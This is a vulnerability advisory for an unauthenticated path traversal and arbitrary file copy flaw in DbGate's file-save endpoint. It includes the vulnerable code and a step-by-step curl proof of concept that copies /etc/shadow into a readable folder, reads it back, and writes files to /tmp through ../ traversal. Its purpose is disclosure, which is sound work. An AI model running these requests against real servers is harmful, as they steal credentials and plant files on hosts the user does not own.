

# Arbitrary File Copy and Path Traversal Write via `files/save-uploaded-file` in DbGate

| Field | Value |
|-------|-------|
| **Project** | [dbgate/dbgate](https://github.com/dbgate/dbgate) |
| **Vulnerability Type** | Path Traversal (CWE-22) |
| **Severity** | Critical — CVSS 3.1 Base Score: **9.1** |
| **CVSS Vector** | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
| **Affected Versions** | <= 7.2.5 (verified on 7.2.5, latest release as of 2026-08-14) |
| **Authentication** | None (default anonymous deployment) |

---

## Summary

The `files/save-uploaded-file` endpoint accepts user-controlled `filePath` and `fileName` parameters without validation. The `filePath` parameter is used as the source for `fs.copyFile()` without restriction, allowing an attacker to copy any readable file on the filesystem (e.g., `/etc/shadow`) into an accessible application directory. Additionally, the `fileName` parameter is not sanitized, allowing path traversal (`../`) to write the copied file to arbitrary target directories.

## Details

In `packages/api/src/controllers/files.js`:

```javascript
saveUploadedFile_meta: true,
async saveUploadedFile({ filePath, fileName }) {
    const FOLDERS = ['sql', 'sqlite'];
    for (const folder of FOLDERS) {
        if (fileName.toLowerCase().endsWith('.' + folder)) {
            await fs.copyFile(filePath, path.join(filesdir(), folder, fileName));
            // filePath: arbitrary source (no validation)
            // fileName: can contain ../ for target traversal
        }
    }
}
```

Two distinct attack vectors exist:

1. **Arbitrary source path** — `filePath` accepts any absolute path like `/etc/shadow`, copying sensitive files into the accessible `files/sql/` directory where they can be read back via `files/load`.
2. **Target path traversal** — `fileName` accepts values like `../../../../tmp/evil.sql`, allowing the copied file to be written to any directory on the filesystem.

## PoC

Verified on DbGate 7.2.5 Docker (default anonymous deployment, port 3000):

**Step 1: Obtain anonymous JWT**

```bash
curl -s -X POST http://TARGET:3000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"amoid":"none"}'
```

**Step 2: Copy `/etc/shadow` into accessible directory (arbitrary file read)**

```bash
curl -s -X POST http://TARGET:3000/files/save-uploaded-file \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"filePath":"/etc/shadow","fileName":"shadow.sql"}'
```
```
{"name":"shadow","folder":"sql"}
```

**Step 3: Read the copied shadow file via `files/load`**

```bash
curl -s -X POST http://TARGET:3000/files/load \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"folder":"sql","file":"shadow.sql","format":"text"}'
```
```
root:*:20668:0:99999:7:::
daemon:*:20668:0:99999:7:::
bin:*:20668:0:99999:7:::
...
node:!:20670:0:99999:7:::
```

**Step 4: Target path traversal — write to arbitrary directory**

```bash
curl -s -X POST http://TARGET:3000/files/save-uploaded-file \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"filePath":"/root/.dbgate/uploads/testfile","fileName":"../../../../tmp/evil_trav.sql"}'
```
```
{"name":"travtest","folder":"sql"}
```

File confirmed at `/tmp/evil_trav.sql` on the filesystem, bypassing the `filesdir()` restriction.



---

## Impact

An unauthenticated attacker can:

- **Steal any readable file** — copy `/etc/shadow`, SSH keys, database credentials, SSL certificates into an accessible directory and read them back
- **Write to arbitrary locations** — use path traversal in `fileName` to deploy files anywhere on the filesystem (e.g., web roots, cron directories)
- **Chain for RCE** — combine with other vulnerabilities or deploy executable content to system directories

The only constraint is the file extension check (`.sql` or `.sqlite`), which is trivially satisfied. In the default Docker deployment with anonymous auth, no credentials are required.
